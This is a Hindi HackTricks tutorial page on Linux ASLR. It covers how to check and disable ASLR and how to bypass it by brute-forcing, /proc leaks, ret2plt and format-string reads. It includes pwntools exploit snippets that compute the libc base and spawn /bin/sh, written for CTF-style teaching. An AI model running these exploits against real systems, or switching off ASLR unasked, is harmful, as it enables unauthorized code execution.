 # ASLR

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong> के साथ!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) संग्रह [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) और हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें और PRs सबमिट करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>

## मूल जानकारी

**Address Space Layout Randomization (ASLR)** एक सुरक्षा तकनीक है जो ऑपरेटिंग सिस्टम में उपयोग की जाती है ताकि सिस्टम और एप्लिकेशन प्रक्रियाओं द्वारा उपयोग किए जाने वाले मेमोरी पतों को **रैंडमाइज़** करें। इसके द्वारा, यह किसी आक्रमक को प्रक्रियाओं और डेटा के विशिष्ट स्थान का पूर्वानुमान करना बहुत कठिन बना देता है, जैसे स्टैक, हीप, और लाइब्रेरी, इस प्रकार के कुछ प्रकार के एक्सप्लॉइट्स को कम करता है, विशेषकर बफर ओवरफ्लोज़।

### **ASLR स्थिति की जांच**

Linux सिस्टम पर ASLR स्थिति की जांच करने के लिए, आप `/proc/sys/kernel/randomize_va_space` फ़ाइल से मान पढ़ सकते हैं। इस फ़ाइल में स्टोर की गई मान यह तय करती है कि कौन सा प्रकार का ASLR लागू है:

* **0**: कोई रैंडमाइज़ेशन नहीं। सब कुछ स्थैतिक है।
* **1**: सतर्क रैंडमाइज़ेशन। साझा लाइब्रेरी, स्टैक, mmap(), VDSO पेज रैंडमाइज़ हैं।
* **2**: पूर्ण रैंडमाइज़ेशन। सतर्क रैंडमाइज़ेशन द्वारा रैंडमाइज़ किए गए तत्वों के अतिरिक्त, `brk()` के माध्यम से प्रबंधित मेमोरी भी रैंडमाइज़ है।

आप निम्नलिखित कमांड के साथ ASLR स्थिति की जांच कर सकते हैं:
```bash
cat /proc/sys/kernel/randomize_va_space
```
### **ASLR को अक्षम करना**

ASLR को अक्षम करने के लिए, आप `/proc/sys/kernel/randomize_va_space` के मान को **0** पर सेट करते हैं। ASLR को अक्षम करना सामान्य रूप से परीक्षण या डीबगिंग स्थितियों के बाहर सुझाया नहीं जाता है। यहाँ दिया गया है कि आप इसे कैसे अक्षम कर सकते हैं:
```bash
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```
आप एक निष्पादन के लिए ASLR को अक्षम कर सकते हैं:
```bash
setarch `arch` -R ./bin args
setarch `uname -m` -R ./bin args
```
### **ASLR सक्रिय करना**

ASLR **सक्रिय** करने के लिए, आप `/proc/sys/kernel/randomize_va_space` फ़ाइल में **2** का मान लिख सकते हैं। यह आम तौर पर रूट विशेषाधिकारों की आवश्यकता होती है। पूर्ण यादृच्छिकता सक्रिय करने के लिए निम्नलिखित कमांड का उपयोग किया जा सकता है:
```bash
echo 2 | sudo tee /proc/sys/kernel/randomize_va_space
```
### **पुनरारंभ के लिए स्थिरता**

`echo` कमांड के माध्यम से किए गए परिवर्तन अस्थायी हैं और पुनरारंभ के समय रीसेट हो जाएंगे। परिवर्तन को स्थायी बनाने के लिए, आपको `/etc/sysctl.conf` फ़ाइल में जाकर निम्नलिखित पंक्ति जोड़नी या संशोधित करनी होगी:
```tsconfig
kernel.randomize_va_space=2 # Enable ASLR
# or
kernel.randomize_va_space=0 # Disable ASLR
```
प्रभावित करने के लिए `/etc/sysctl.conf` को संपादित करने के बाद, निम्नलिखित के साथ परिवर्तन लागू करें:
```bash
sudo sysctl -p
```
यह सुनिश्चित करेगा कि आपकी ASLR सेटिंग्स पुनरारंभ होने पर भी बनी रहें।

## **बाईपास**

### 32बिट ब्रूट-फोर्सिंग

PaX प्रक्रिया पता स्थान क्षेत्र को **3 समूहों** में विभाजित करता है:

* **कोड और डेटा** (सक्रिय और असक्रिय): `.text`, `.data`, और `.bss` —> `delta_exec` चर में **16 बिट** का अनियमितता। यह चर प्रत्येक प्रक्रिया के साथ यादृच्छिक रूप से प्रारंभ होता है और प्रारंभिक पतों में जोड़ा जाता है।
* `mmap()` द्वारा आवंटित **स्मृति** और **साझा पुस्तकालयें** —> **16 बिट**, जिसे `delta_mmap` कहा जाता है।
* **स्टैक** —> **24 बिट**, `delta_stack` के रूप में। हालांकि, यह वास्तव में **11 बिट** का उपयोग करता है (10वें से 20वें बाइट समाविष्ट), **16 बाइट** के अनुरूप संरेखित —> इससे **524,288 संभावित वास्तविक स्टैक पतों** का परिणाम होता है।

पिछले डेटा 32-बिट सिस्टमों के लिए है और कम होने वाली अंतिम अनियमितता के कारण ASLR को बाईपास करना संभव बनाता है, जिसे एक बार और फिर से प्रयास करके शोध पूरा होने तक पुनः निष्पादित किया जा सकता है।

#### ब्रूट-फोर्स विचार:

* यदि आपके पास एक **बड़ा ओवरफ्लो है जिसमें शेलकोड से पहले एक बड़ा NOP स्लेड हो सकता है**, तो आप स्टैक में पतों को ब्रूट-फोर्स कर सकते हैं जब तक फ्लो **NOP स्लेड के किसी हिस्से पर उछाल नहीं करता**।
* इसके लिए एक और विकल्प यदि ओवरफ्लो इतना बड़ा नहीं है और एक्सप्लॉइट स्थानीय रूप से चलाया जा सकता है तो संभावना है कि **एनओपी स्लेड और शेलकोड को एक पर्यावरण चर में जोड़ा जा सकता है**।
* यदि एक्सप्लॉइट स्थानीय है, तो आप libc के आधार पते को ब्रूट-फोर्स करने का प्रयास कर सकते हैं (32बिट सिस्टमों के लिए उपयोगी):
```python
for off in range(0xb7000000, 0xb8000000, 0x1000):
```
* यदि आप एक रिमोट सर्वर पर हमला कर रहे हैं, तो आप `libc` फ़ंक्शन `usleep` का पता लगाने के लिए **`burte-force`** कर सकते हैं, 10 को एर्ग्यूमेंट के रूप में पास करते हुए। यदि किसी समय सर्वर **10 सेकंड अतिरिक्त समय लेता है** तो आपने इस फ़ंक्शन का पता लगा लिया है।

{% hint style="success" %}
64बिट सिस्टम में एंट्रोपी अधिक होती है और यह संभव नहीं है।
{% endhint %}

### स्थानीय सूचना (`/proc/[pid]/stat`)

प्रक्रिया का फ़ाइल **`/proc/[pid]/stat`** हमेशा सभी द्वारा पढ़ने योग्य होती है और इसमें **रोचक** जानकारी शामिल होती है जैसे:

* **startcode** और **endcode**: ऊपर और नीचे के पते जहां **बाइनरी का TEXT** है
* **startstack**: **स्टैक** की शुरुआत का पता
* **start\_data** और **end\_data**: ऊपर और नीचे के पते जहां **BSS** है
* **kstkesp** और **kstkeip**: वर्तमान **ESP** और **EIP** पते
* **arg\_start** और **arg\_end**: ऊपर और नीचे के पते जहां **cli arguments** हैं।
* **env\_start** और **env\_end**: ऊपर और नीचे के पते जहां **env variables** हैं।

इसलिए, यदि हमलावर उसी कंप्यूटर में है जिस पर उत्पादित किया जा रहा है और यह बाइनरी अपेक्षित नहीं है कि कच्चे तर्क से अतिरिक्त भराई हो, बल्कि एक विभिन्न **इनपुट से जो इस फ़ाइल को पढ़ने के बाद बनाया जा सकता है**, उससे हमलावर को **इस फ़ाइल से कुछ पते प्राप्त करना और उससे अभियोग के लिए ऑफसेट निर्मित करना संभव है**।

{% hint style="success" %}
इस फ़ाइल के बारे में अधिक जानकारी के लिए [https://man7.org/linux/man-pages/man5/proc.5.html](https://man7.org/linux/man-pages/man5/proc.5.html) पर `/proc/pid/stat` खोजें।
{% endhint %}

### एक लीक होना

* **चुनौती एक लीक देना है**

यदि आपको एक लीक मिलता है (सरल CTF चुनौतियाँ), तो आप इससे ऑफसेट की गणना कर सकते हैं (उदाहरण के लिए मान लें कि आप जानते हैं कि आपके द्वारा उपयोग किए जा रहे सिस्टम में सही libc संस्करण का निश्चित है)। यह उदाहरण शोध यहाँ से निकाला गया है [**यहाँ से उदाहरण**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/aslr-bypass-with-given-leak) (अधिक विवरण के लिए उस पृष्ठ की जाँच करें):
```python
from pwn import *

elf = context.binary = ELF('./vuln-32')
libc = elf.libc
p = process()

p.recvuntil('at: ')
system_leak = int(p.recvline(), 16)

libc.address = system_leak - libc.sym['system']
log.success(f'LIBC base: {hex(libc.address)}')

payload = flat(
'A' * 32,
libc.sym['system'],
0x0,        # return address
next(libc.search(b'/bin/sh'))
)

p.sendline(payload)

p.interactive()
```
* **ret2plt**

एक बफर ओवरफ्लो का दुरुपयोग करके एक **ret2plt** का शोषण करना संभव होगा ताकि libc से किसी फ़ंक्शन का पता निकाला जा सके। जांच करें:

{% content-ref url="ret2plt.md" %}
[ret2plt.md](ret2plt.md)
{% endcontent-ref %}

* **फॉर्मेट स्ट्रिंग्स अर्बिट्रेरी रीड**

जैसे कि ret2plt में, अगर आपके पास फॉर्मेट स्ट्रिंग्स वलनरबिलिटी के माध्यम से एक अर्बिट्रेरी रीड है तो एक **libc फ़ंक्शन** का पता निकालना संभव है जो GOT से है। निम्नलिखित [**उदाहरण यहाँ से है**](https://ir0nstone.gitbook.io/notes/types/stack/aslr/plt\_and\_got):
```python
payload = p32(elf.got['puts'])  # p64() if 64-bit
payload += b'|'
payload += b'%3$s'              # The third parameter points at the start of the buffer

# this part is only relevant if you need to call the main function again

payload = payload.ljust(40, b'A')   # 40 is the offset until you're overwriting the instruction pointer
payload += p32(elf.symbols['main'])
```
आप Format Strings arbitrary read के बारे में अधिक जानकारी यहाँ पा सकते हैं:

{% content-ref url="../../format-strings/" %}
[format-strings](../../format-strings/)
{% endcontent-ref %}

### Ret2ret & Ret2pop

स्टैक के अंदर पते का दुरुपयोग करके ASLR को बायपास करने का प्रयास करें:

{% content-ref url="../../stack-overflow/ret2ret.md" %}
[ret2ret.md](../../stack-overflow/ret2ret.md)
{% endcontent-ref %}

<details>

<summary><strong>जानें AWS हैकिंग को शून्य से हीरो तक</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

HackTricks का समर्थन करने के अन्य तरीके:

* यदि आप अपनी **कंपनी का विज्ञापन HackTricks में देखना चाहते हैं** या **HackTricks को PDF में डाउनलोड करना चाहते हैं** तो [**सब्सक्रिप्शन प्लान्स**](https://github.com/sponsors/carlospolop) देखें!
* [**आधिकारिक PEASS & HackTricks स्वैग**](https://peass.creator-spring.com) प्राप्त करें
* हमारे विशेष [**NFTs**](https://opensea.io/collection/the-peass-family) कलेक्शन, [**The PEASS Family**](https://opensea.io/collection/the-peass-family) खोजें
* **शामिल हों** 💬 [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या हमें **ट्विटर** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो** करें।
* **हैकिंग ट्रिक्स साझा करें, HackTricks** और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में PRs सबमिट करके।

</details>
